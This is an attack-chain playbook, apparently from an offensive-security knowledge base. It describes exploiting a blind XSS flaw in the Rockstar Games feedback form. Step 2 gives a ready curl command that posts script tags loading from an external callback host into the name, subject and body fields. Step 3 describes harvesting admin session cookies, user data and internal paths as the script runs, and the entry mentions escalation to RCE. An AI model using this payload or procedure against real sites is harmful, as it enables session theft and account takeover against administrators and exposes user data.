

---
tags:
  - xss
  - blind-xss
  - web-vulnerability
  - session-theft
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Mouthoff-Feedback-Endpoint]]'
  - '[[procedures/Submit-Malicious-XSS-Payload-via-POST]]'
  - '[[procedures/Trigger-Blind-XSS-on-Admin-Review]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T00:11:09.786Z'
description: >-
  A multi-stage attack exploiting a Blind XSS vulnerability in the Rockstar
  Games feedback submission form to inject malicious JavaScript that executes on
  an admin's browser during comment review, enabling session cookie theft and
  potential account takeover.
skill_level: intermediate
impact_level: high
id: 325c36e1-b5f4-4051-ae33-18372ddd5f64
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Blind XSS in Rockstar Games Mouthoff Feedback Form for Admin Session Theft

Multi-stage attack chain demonstrating exploitation of a Blind XSS vulnerability in the Rockstar Games 'Mouthoff to Rockstar' feedback form. The attack involves identifying the submission endpoint, injecting a malicious JavaScript payload via POST request, and relying on admin review to trigger execution on an internal domain. This leads to potential theft of admin session cookies, account takeover, disclosure of user data (usernames, IPs, comments), exposure of internal paths, and escalation to RCE via Angular JS sandbox escapes.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform
- Public-facing website (https://www.rockstargames.com)
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Internet access to the target website
- No credentials needed for submission
- Control over an external server to host the XSS callback script (e.g., https://abhartiya.xss.ht)

## Detailed Attack Procedures

### Step 1: Identify Feedback Submission Endpoint
procedure: [[procedures/Identify-Mouthoff-Feedback-Endpoint]]

**Objective**: Locate the JSON endpoint for submitting feedback comments to prepare for payload injection.

**Instructions**: Manually inspect the website's feedback form or use browser developer tools to identify the POST endpoint. The form is located at https://www.rockstargames.com/mouthoff, and submissions route to /mouthoff/mouthoff/submit.json.

**Expected Output**: Confirmation of the endpoint URL and required parameters (name, subject, body, email, age, category_id).

**Success Indicators**:
- Endpoint URL verified
- Form parameters identified

### Step 2: Submit Malicious POST Request with XSS Payload
procedure: [[procedures/Submit-Malicious-XSS-Payload-via-POST]]

**Objective**: Inject a Blind XSS payload into vulnerable form fields to store malicious JavaScript for later execution.

**Instructions**: Use [[commands/curl-submit-xss-payload]] to craft and send the POST request with the payload in name, subject, and body fields. Set appropriate headers like User-Agent and Content-Type.

```bash
curl -X POST https://www.rockstargames.com/mouthoff/mouthoff/submit.json \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=\"/><script src=https://abhartiya.xss.ht></script>&subject=\"/><script src=https://abhartiya.xss.ht></script>&body=\"/><script src=https://abhartiya.xss.ht></script>&email=test@gmail.com&age=30&category_id=1"
```

**Expected Output**: HTTP 200 response indicating successful submission (no visible error).

**Success Indicators**:
- Request succeeds without rejection
- No immediate payload execution (blind nature)

### Step 3: Trigger Blind XSS on Admin Review
procedure: [[procedures/Trigger-Blind-XSS-on-Admin-Review]]

**Objective**: Wait for an admin to review and approve/disapprove the submitted comment, triggering the XSS on the internal admin panel.

**Instructions**: Monitor the external callback server (e.g., https://abhartiya.xss.ht) for incoming requests from the admin's browser. The payload executes when the admin views the comment, loading the script and potentially exfiltrating session cookies or other data.

**Expected Output**: Callback server logs showing execution, including stolen cookies, user info, or internal domain details.

**Success Indicators**:
- External script loads from admin IP
- Session data (cookies, IPs, usernames) captured
- Internal paths exposed in callback

## Attack Chain Summary

### Key Achievements

1. Successful injection of Blind XSS payload into public-facing form
2. Execution on internal admin domain leading to session theft
3. Potential escalation to RCE via Angular JS injection and data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2024-10-01T00:00:00Z*
